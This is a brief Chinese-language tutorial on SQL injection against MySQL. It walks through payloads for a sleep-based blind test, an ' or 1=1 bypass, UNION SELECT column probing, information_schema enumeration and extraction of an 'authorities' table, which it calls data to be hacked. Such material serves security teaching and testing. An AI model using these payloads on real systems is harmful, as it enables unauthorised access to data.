## sql注入实例
本实例以mysql数据库为演示环境，`oracle`视情况处理,如：元数据库表换为：`all_tab_columns`/`user_tab_columns`

### 不知道当前sql是否存在sql注入漏洞？

- 使用sleep盲测
```text

输入正确查询条件：如文本框中输入：admin（要保证可以查询出来数据）
例如：输入探测语句（admin' and sleep(5) --'），测试观察响应时间是否延迟了5秒

```

- 使用探测语句
```text

第一个':闭合程序语句，否则会出现语句错误
第二个':闭合程序语句，否则会出现语句错误
条件：1=1，恒等式，查询所有数据

' or 1=1 --'

```

### 知道存在sql注入情况，下一步试探查询列（程序中查询列有几个？）
```text

//一次次试探,直到出现数据为止

1=2' union select 1 --'
1=2' union select 1,2 --'
1=2' union select 1,2,3 --'
1=2' union select 1,2,3,4 --'
1=2' union select 1,2,3,4,5 --'
  ....

```

### 如何知道当前有哪些数据库，库中有哪些表？
采用数据库自带元数据表：如，mysql中的`information_schema.tables`,其中`TABLE_SCHEMA`表示库，`TABLE_NAME`表示表,
`information_schema.COLUMNS`表示表中的列元数据

```text

//其中1=2是为了将程序中第一个查询结果除去，这行语句就可以知道数据库中的表和库

1=2' union select TABLE_SCHEMA,TABLE_NAME from information_schema.tables  -- '


//其中1=2是为了将程序中第一个查询结果除去，这行语句就可以知道数据库中的表和表的列

1=2' union select TABLE_NAME,COLUMN_NAME from information_schema.COLUMNS-- '

```

### 若目标数据（待黑数据）比程序中的sql查询列少，怎么处理？
```text

//比如当前查询有5个字段，而我们只需要1个字段则通过使用站位，如此时的：1,2,3,4

1=2' union select authority,1,2,3,4 from authorities -- '

```
### 若目标数据（待黑数据）比程序中的sql查询列多，怎么处理？
```text

//比如程序中只查询2个字段，而我们需要黑5个字段，则可以通过使用concat函数链接诸多个字段为一个字段中返回即可

1=2' union select authority,concat(字段1,' ',字段2,' ',字段3,' ',字段4) from authorities -- '

```
